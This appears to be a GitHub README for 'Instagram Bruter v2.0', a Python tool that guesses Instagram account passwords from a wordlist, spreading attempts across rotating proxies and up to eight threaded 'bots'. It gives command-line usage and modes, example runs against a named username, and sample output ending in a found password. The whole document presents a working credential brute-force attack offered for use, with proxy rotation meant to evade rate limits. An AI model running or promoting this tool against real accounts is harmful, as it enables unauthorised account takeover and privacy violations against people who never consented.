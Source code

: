 # Instagram Bruter *v2.0*

Re-engineered to work **without** TOR
__Usage:__ `python instagram.py <username> <wordlist> -m <mode>`

### Requirements
- Python *v2.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes; 0: 128bots, 1: 64bots, 2: 32bots, 3: 16bot
```

### Bots(Multi-threads)
- 1 bot: 16 passwords at a time
- 2 bots: 32 passwords at a time
- 4 bots: 64 passwords at a time
- 8 bots: 128 passwords at a time

### Modes
- 0: 8 bots
- 1: 4 bots
- 2: 2 bots
- 3: 1 bot

### Chill mode
This mode uses only 1 bot, or 16 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1
This mode uses 2 bots, or 32 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2
This mode uses 4 bots, or 64 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode
This mode uses 8 bots, or 128 passwords at a time.
Only use this mode when you have to, proxies are limited so save some p __******__ for the rest of us
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run
```
[-] Proxy-IP: 125.25.80.39[Thailand]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 31
[-] Attempts: 15
[-] Proxies: 334
[-] Bots: 2
```

### Stop
```
[-] Proxy-IP: 37.145.33.107[Poland]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 97
[-] Proxies: 4
[-] Bots: 2

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```